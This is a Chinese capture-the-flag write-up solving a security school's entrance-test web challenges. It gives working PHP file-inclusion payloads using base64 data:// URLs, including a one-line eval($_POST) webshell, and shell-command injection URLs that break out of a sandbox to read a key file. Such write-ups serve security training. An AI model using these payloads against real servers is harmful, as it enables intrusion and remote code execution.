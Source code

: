 搞了个谷安学院的报名测试题目

![20201208142555](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201208142555.png)

## http://103.66.216.83:9997
变换提交方式，更改header为post 表单提交数据。

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>POST&GET</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />

</head>
<body>

<h1>请以get方式提交a=1 post方式提交b=2给服务器</h1>
key1:T0kS7r3c

</body>
</html>

## http://103.66.216.83:9998/?page=/flag

<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
//while (strstr($page, "php://")) {
//    $page=str_replace("php://", "", $page);
//}
include($page);
?>
flag{38469ca0ef5b847cc4247f41ff7f9e82}
这里有多种方式执行命令
### 过滤了`php://`的方式，使用大小写绕过过滤，使用PHP://协议恶意传输数据

### data://伪协议执行命令利用
php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码

使用方法:data://text/plain;base64,xxxx(base64编码后的数据)
<?php system("ls /")?> base64编码后使用PD9waHAgc3lzdGVtKCJscyAvIik/Pg==
http://103.66.216.83:9998/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=

### 使用data协议传木马
<?php eval($_POST[aaa]); ?>
PD9waHAgZXZhbCgkX1BPU1RbYWFhXSk7ID8+
http://103.66.216.83:9998/?page=data://text/plain/;base64,PD9waHAgZXZhbCgkX1BPU1RbYWFhXSk7ID8+
菜刀直接连接

## http://103.66.216.83:9999
```
0 <?php
    header("Content-type:text/html;charset=utf-8"); 
    /*
    Hint:
    get the shell find the key；）\n";
    */
    $sandbox = '/var/www/html/sandbox/' . md5("M0rk" . $_SERVER['REMOTE_ADDR']);
    mkdir($sandbox,0777,true);
    chdir($sandbox);
    echo strlen($_GET['cmd']);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 30) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
echo "<br /> IP : {$_SERVER['REMOTE_ADDR']}";

IP : 223.104.105.184
```

http://103.66.216.83:9999/?cmd=cat%20../../key.php%20%3E../1

http://103.66.216.83:9999/sandbox/1
<?php
#key3:Welc0Me From GooAnn

看到这个大佬说不要去沙箱，可以跳出沙箱文件如
ls ../ >../23.txt
http://103.66.216.83:9999/?cmd=ls%20../%20%3E../23.txt
![20201208145152](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201208145152.png)

看到刚才创建的文件，再将沙箱文件外面的文件写入到23中
ls ../../ >../23.txt
![20201208145330](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201208145330.png)
看到有个key.php 讲php文件输送到23.txt中
查看文件得到key

## 参考连接

https://blog.csdn.net/a3320315/article/details/101635461
https://blog.csdn.net/weixin_43818995/article/details/104164700?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-2.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-2.control

https://www.jianshu.com/p/955bae08f5e1
https://www.o2oxy.cn/1403.html?replytocom=315